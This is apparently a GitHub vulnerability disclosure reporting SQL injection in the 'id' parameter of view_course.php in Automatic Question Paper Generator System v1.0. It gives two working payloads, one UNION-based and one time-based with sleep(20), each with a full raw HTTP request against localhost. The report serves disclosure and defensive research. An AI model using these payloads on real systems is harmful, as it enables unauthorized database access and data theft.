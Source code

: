 # Automatic Question Paper Generator System v1.0 has SQL injection

BUG_Author:Evan

Website source address:https://www.sourcecodester.com/php/15190/automatic-question-paper-generator-system-phpoop-free-source-code.html

Vulnerability File: /aqpg/admin/courses/view_course.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' union all select null,null,concat(0x75767778,0x45464748),null,null,null,null,null-- -

```
GET /aqpg/admin/courses/view_course.php?id=1%27%20union%20all%20select%20null,null,concat(0x75767778,0x45464748),null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gsu6a2n13begpb230tc3rr4m5v
Connection: close
```

union query success

![image](https://github.com/SecurityYH/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 6 from (select(sleep(20)))d)-- e

```
GET /aqpg/admin/courses/view_course.php?id=1%27%20and%20(select%206%20from%20(select(sleep(20)))d)--%20e HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gsu6a2n13begpb230tc3rr4m5v
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/SecurityYH/bug_report/blob/main/sql2.png)

